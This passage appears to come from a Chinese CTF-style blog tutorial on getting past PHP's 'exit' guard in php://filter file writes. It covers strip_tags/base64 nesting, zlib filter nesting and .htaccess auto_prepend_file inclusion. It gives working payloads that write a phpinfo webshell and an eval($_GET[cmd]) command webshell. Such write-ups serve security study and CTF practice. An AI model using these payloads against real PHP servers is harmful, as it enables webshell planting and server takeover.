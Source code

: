 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527224411264.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**嵌套绕过：**
strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签（php7.3之后移除）

>`string.strip_tags`可以去除剥去字符串中的 HTML、XML 以及 PHP 的标签，而`<?php exit; ?>`实际上便是一个XML标签，既然是XML标签，就可以利用strip_tags函数去除它，所以可以先将webshell用base64编码，调用完成strip_tags后再进行base64-decode，死亡exit在第一步被去除，而webshell在第二步被还原

```php
Payload：

#php5
?file=php://filter/string.strip_tags|convert.base64-decode/resource=test2.php
POST DATA
content=?>PD9waHAgcGhwaW5mbygpOyA/Pg==
#由于<?php exit();不是完整的标签，所以需要加上?>进行补全
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527234732519.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

但是这种方法有局限性，因为string.strip_tags在php7.3以上的环境下会发生段错误，从而导致无法写入，在php5或者php7.2的环境下则不受此影响

**过滤器嵌套：**
如果环境是php7的话，也可以使用过滤器嵌套的方法来做
流程是先将三个过滤器叠加之后进行压缩，然后转小写，最后再解压，这样的流程执行结束后会导致部分死亡代码错误，便可以写进去我们想要写入的shell，原理很简单，就是利用过滤器嵌套的方式让死亡代码在各种变换之间进行分解扰乱，最终变成php无法识别的字符

```php
经测试可用的Payload：

?file=php://filter/zlib.deflate|string.tolower|zlib.inflate|/resource=a.php
POST DATA
content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[cmd]);?>/resource=a.php
或者(没试过)
content=php/:|<?php%0Dphpinfo();?>/resource=test3.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528000436209.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**.htaccess的预包含利用：**
.htaccess是一个纯文本文件，里面存放着Apache服务器配置相关的一些指令，它类似于Apache的站点配置文件，但只作用于当前目录，而且是只有用户访问目录时才加载，通过该文件可以实现网页301重定向，自定义404错误页面，改变文件拓展名，禁止目录列表等
通过 php_value 来设置 auto_prepend_file或者 auto_append_file 配置选项包含一些敏感文件，同时在本目录或子目录中需要有可解析的 php 文件来触发，这时无论访问那个文件，都会解析出flag.php
`php_value auto_prepend_file +文件绝对路径（默认为当前上传的目录）`

```php
Payload：

?file=php://filter/write=string.strip_tags/resource=.htaccess
POST DATA
content=?>php_value%20auto_prepend_file%20D:\phpstudy\phpstudy_x64\phpstudy_pro\WWW\H3rmesk1t\flag.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528013348907.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

